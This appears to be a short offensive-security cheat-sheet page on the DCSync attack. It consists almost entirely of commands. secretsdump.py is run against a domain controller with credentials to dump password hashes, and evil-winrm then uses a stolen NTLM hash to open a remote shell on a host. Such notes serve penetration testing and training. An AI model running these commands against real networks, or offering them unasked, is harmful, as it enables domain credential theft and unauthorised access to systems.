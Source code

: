 # DCSync

...



<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

```bash
locate secretsdump.py
cp /PATH/TO/secretsdump.py .

./secretsdump.py 'DOMAIN'/'USER':'PASS'@'DC'
```

Use the retrived NTLM hash to perform a Pass-the-Hash.

```bash
evil-winrm -u $USER_ACCOUNT -H $NT_HASH -i $HOST_IP
```

